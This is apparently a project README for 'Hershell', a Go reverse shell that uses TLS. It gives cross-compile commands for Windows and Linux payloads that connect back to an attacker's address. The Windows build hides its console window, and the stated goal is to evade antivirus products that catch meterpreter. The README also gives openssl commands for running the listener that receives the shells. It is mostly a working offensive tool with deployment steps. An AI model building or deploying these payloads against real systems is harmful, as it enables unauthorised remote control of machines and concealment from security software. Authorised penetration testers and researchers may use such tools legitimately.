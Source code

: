 # Hershell

Simple TCP reverse shell written in [Go](https://golang.org).
It uses TLS to secure the communications.

## Why ?

Although meterpreter payloads are great, they are sometimes spotted by AV products.
The goal of this project is to get a simple reverse shell, which can work on multiple systems.

## How ?

Since it's written in Go, you can cross compile the source for the desired architecture.

For windows:

```bash
$ GOOS=windows GOARCH=amd64 go build --ldflags "-X main.connectString=192.168.0.1:9090 -H=windowsgui" -o reverse.exe hershell.go
```

For Linux:
```bash
$ GOOS=linux GOARCH=amd64 go build --ldflags "-X main.connectString=192.168.0.1:9090" -o reverse.exe hershell.go
```

Just use the GOOS and GOARCH variables to define the target.

On the server side, you can use the openssl integrated TLS server:

```bash
# Certificate and private key generation
$ openssl req -x509 -newkey rsa:2048 -keyout /tmp/key.pem -out /tmp/cert.pem -days 365 -nodes
# Start the server
$ openssl s_server -cert /tmp/cert.pem -key /tmp/key.pem -accept 9090
```

## TODO

- Certificate pinning
